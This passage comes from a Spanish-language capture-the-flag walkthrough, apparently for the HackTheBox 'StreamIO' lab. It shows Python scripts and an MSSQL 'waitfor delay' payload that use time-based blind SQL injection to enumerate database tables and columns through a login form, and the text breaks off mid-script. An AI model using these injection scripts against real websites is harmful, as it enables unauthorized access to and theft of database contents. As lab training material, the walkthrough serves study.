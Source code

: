 ```ruby
                    'password': 'admin'
                }

                p1.status(post_data['username'])
                
                
                time.start = time.time()
                r = requests.post(ip_address, data=post_data, verify=False)
                time.end = time.time()

                if time.end - time.start > 5:
                    
                    Tablas += palabra
                    
                    p2.status(Tablas)
                    
                    break
        Tablas += ', '

if __name__ == "__main__":
    sqlinyeccion()
```

Siguiendo el mismo metodo obtenemos las Tablas:

`movies, users`

>Se ve tentador la Tabla users

Ahora para las Columnas de la Tabla `users` modificamos un poco el argumento y le agregamos el nombre de la Tabla a "escanear":
```sql
if(select substring(column_name,1,1) from information_schema.columns where table_name='TABLE_NAME' order by column_name offset 1 rows fetch next 1 row only)='m' waitfor delay'0:0:5'
```

Hacemos lo mismo que antes, cambiamos el **'payload'**
```ruby
#!/usr/bin/python3

from pwn import *
import requests
import pdb
import string
import time
import urllib3

#Variables Globales
ip_address = "https://streamio.htb/login.php"
caracter = string.ascii_lowercase + string.punctuation

def sqlinyeccon():
    
    p1 = log.progress("Fuerza Bruta")
    p1.status("Fuerza Bruta")

    p2 = log.progress("Nombre de columnas")

    Columnas = ""
    
    for columna in range(0, 30):
        for posición in range(0, 32):
            for palabras in caracter:
                
                urllib3.disable_warnings()

```
